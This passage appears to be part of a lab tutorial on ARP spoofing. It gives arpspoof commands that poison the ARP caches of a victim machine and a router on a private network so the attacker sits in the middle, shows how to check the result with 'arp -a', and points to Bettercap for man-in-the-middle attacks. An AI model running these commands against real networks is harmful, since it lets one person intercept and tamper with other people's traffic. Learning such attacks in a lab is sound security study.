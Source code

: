 To verify run
```sh
cat /proc/sys/net/ipv4/ip_forward
```

```sh
arpspoof -i eth0 -t 10.0.2.5 10.0.2.1
```

Here the 10.0.2.5 is the victim machine and the 10.0.2.1 is the router machine. This will basically tell the victim machine that we are the router.

```sh
arpspoof -i eth0 -t 10.0.2.1 10.0.2.5
```

This the reverse telling the router that we are the victim IP (i.e 10.0.2.5 in this case)

To verify if this is working in the Windows machine run, verify this in the ARP table.

```bash
arp -a
```

![](./Images/network_arp_1.png)

Here if you notice, that 10.0.2.15 (the attacker machine IP) mac is used for the router as well (10.0.2.1).

This is a manual process to do ARP poising. Instead use **Bettercap** to perform ARP poisoning or MIM (man in the middle) attacks.

**Bettercap** - https://www.bettercap.org/


#### Bettercap

If bettercap is not installed in the machine for Linux use

```sh
sudo apt install bettercap
```
